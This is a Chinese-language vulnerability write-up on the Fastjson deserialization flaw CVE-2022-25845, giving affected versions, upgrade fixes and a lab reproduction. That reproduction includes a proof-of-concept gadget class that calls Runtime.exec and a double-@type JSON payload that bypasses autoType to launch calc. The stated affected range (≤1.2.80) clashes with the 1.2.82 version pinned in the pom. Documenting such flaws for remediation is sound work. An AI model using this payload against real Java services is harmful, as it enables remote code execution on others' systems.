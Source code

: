 # 

# Fastjson 远程代码执行漏洞 CVE-2022-25845

## 漏洞描述

Fastjson 是阿里巴巴的开源 JSON 解析库，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列 化到 JavaBean。在 Fastjson 1.2.80 及以下版本中存在反序列化漏洞，攻击者可 以在特定依赖下利用此漏洞绕过默认 autoType 关闭限制，从而反序列化有安全风险的类。

## 漏洞影响

```
Fastjson ≤ 1.2.80
```

## 漏洞复现

利用 idea 创建 maven 项目 搭建漏洞环境，在 pom 文件中添加

```
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.82</version>
</dependency> 
```

创建文件夹 com.example.fastjson，在下面添加两个 java 文件

```
package com.example.fastjson;
 
import java.io.IOException;
 
public class Poc extends Exception {
    public void setName(String str) {
        try {
            Runtime.getRuntime().exec(str);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
package com.example.fastjson;
import com.alibaba.fastjson.JSON;
 
public class PocDemo {
    public static void main(String[] args) {
        String json = "{\"@type\":\"java.lang.Exception\",\"@type\":\"com.example.fastjson.Poc\",\"name\":\"calc\"}";
        JSON.parse(json);
    }
}
```

运行 PocDemo

## 漏洞修复

1. 升级至版本 FastJson 1.2.83：https://github.com/alibaba/fastjson/releases/tag/1.2.83
2. 升级到 FastJosn v2：https://github.com/alibaba/fastjson2/releases
